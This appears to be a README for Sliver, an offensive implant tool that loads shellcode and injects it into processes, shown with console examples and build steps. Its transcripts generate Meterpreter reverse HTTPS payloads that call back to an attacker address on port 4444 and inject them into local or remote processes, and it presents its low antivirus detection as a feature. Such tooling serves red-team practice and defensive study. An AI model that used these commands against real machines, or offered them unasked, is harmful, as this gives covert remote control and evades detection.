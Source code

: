 Sliver
======

![Sliver](/sliver/sliver.jpeg)

Sliver is a remote shellcode loading and injection service that uses end-to-end encryption (mTLS) for all network traffic. Implants are dynamically compiled with unique X.509 certificates signed by a per-instance certificate authority generated when you first run the binary. Sliver can load arbitrary shellcode but also integrates with MSFVenom to automatically generate, execute, and manage Meterpreter payloads. Sliver binaries have very low anti-virus detection as they do not contain any malicous code themselves and instead dynamically load it over the network.

Sliver can inject payloads into it's own process or optionally use remote thread injection to execute payloads in a remote processes to which your execution context has access.

```
[attacker] <-(mTLS)-> [sliver] -(code injection)-> [remote process]
```

## Local Thread Execution

Execute shellcode in the local process:

```
sliver (NURSING_BEETLE) > msf -lhost 172.16.20.1
 msf -lhost 172.16.20.1
[*] Generating meterpreter_reverse_https windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> NURSING_BEETLE
[*] Sucessfully sent payload
```

## Remote Thread Injection

Inject shellcode into remote processes:

```
sliver (NURSING_BEETLE) > inject -pid 3100 -lhost 172.16.20.1
 inject -pid 3100 -lhost 172.16.20.1
[*] Generating meterpreter_reverse_https windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> NURSING_BEETLE -> PID: 3100
[*] Sucessfully sent payload
```

Sliver also has a built-in `ps` command.

## Multi-player Mode

Sliver can also execute multiple payloads per connection. This can be helpful if your meterpreter session dies, or if you want to play with friends:

```
sliver (STUPID_AIRBAG) > msf -lhost 172.16.20.1
 msf -lhost 172.16.20.1
[*] Generating windows/amd64 -> 172.16.20.1:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> STUPID_AIRBAG
[*] Sucessfully sent payload
sliver (STUPID_AIRBAG) > msf -lhost 172.16.20.2
 msf -lhost 172.16.20.2
[*] Generating windows/amd64 -> 172.16.20.2:4444 ...
[*] Successfully generated payload 207449 byte(s)
[*] Sending payload -> STUPID_AIRBAG
[*] Sucessfully sent payload
```

## Building From Scratch ##

You'll want to compile from a MacOS or Linux machine, compiling from Windows should work but none of the scripts are designed to run on Windows (you can compile the Windows binaries from MacOS or Linux).

Requirements:
* Metasploit Framework v5 or later
* Go v1.11 or later
* Make, sed, tar, wget, zip

Build thin server (for developement)

```
$ ./deps.sh
$ ./go-assets.sh
$ make
```

Statically compile and bundle server with all dependencies and assets:

```
$ make static-macos
$ make static-linux
$ make static-windows
```
